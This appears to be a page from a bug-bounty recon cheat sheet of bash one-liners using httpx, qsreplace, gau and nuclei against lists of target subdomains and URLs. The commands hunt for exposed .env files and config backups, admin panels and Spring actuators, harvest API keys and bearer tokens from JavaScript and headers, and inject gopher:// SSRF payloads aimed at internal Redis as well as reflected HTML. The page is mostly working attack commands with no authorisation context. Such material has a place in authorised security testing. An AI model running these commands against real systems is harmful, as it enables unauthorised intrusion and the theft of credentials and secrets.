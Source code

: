 ### Sensitive Files (Backup Files Exposure)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/.env\n/config.php.bak\n/database.yml\n/backup.zip') -mc 200 -o sensitive_files.txt
```

### Exposed Config Panels (CMS, Jenkins, PhpMyAdmin)
```bash
cat subdomains.txt | httpx -silent -path-list <(echo -e '/phpmyadmin\n/jenkins\n/wp-admin\n/admin\n/cpanel') -mc 200 -o exposed_panels.txt
```

### Hardcoded API Keys in JS Files
```bash
cat all_js_urls.txt | xargs -I{} curl -s {} | grep -E 'apiKey|apikey|secret|token|bearer' | tee hardcoded_api_keys.txt
```

### Spring Boot Actuator Exposed Endpoints
```bash
cat subdomains.txt | httpx -silent -path '/actuator/health' -mc 200 -o exposed_actuators.txt
```

### Gopher SSRF (Redis/SMTP Attack)
```bash
cat all_urls.txt | qsreplace 'gopher://127.0.0.1:6379/_COMMAND' | httpx -silent -o gopher_ssrf_candidates.txt
```

### HTML Injection (Reflected)
```bash
cat all_urls.txt | gf xss | qsreplace '<h1>PWNED</h1>' | httpx -silent -fr '<h1>PWNED</h1>' -o html_injection.txt
```

### API Token Misconfiguration (Bearer Token Disclosure)
```bash
cat all_urls.txt | httpx -silent -hdrs | grep -i 'authorization: Bearer' | tee bearer_tokens.txt
```

### WordPress Plugin Vulnerabilities (Outdated Plugins)
```bash
nuclei -l subdomains.txt -t cves/wordpress/ -o wp_vulns.txt
```

### Broken Link Hijacking (Subdomain Takeover via Broken Links)
```bash
cat subdomains.txt | gau | grep -E '\.(js|css|png|jpg|jpeg|gif|svg|woff|ttf|ico)' | httpx -silent -status-code -o broken_links.txt
```
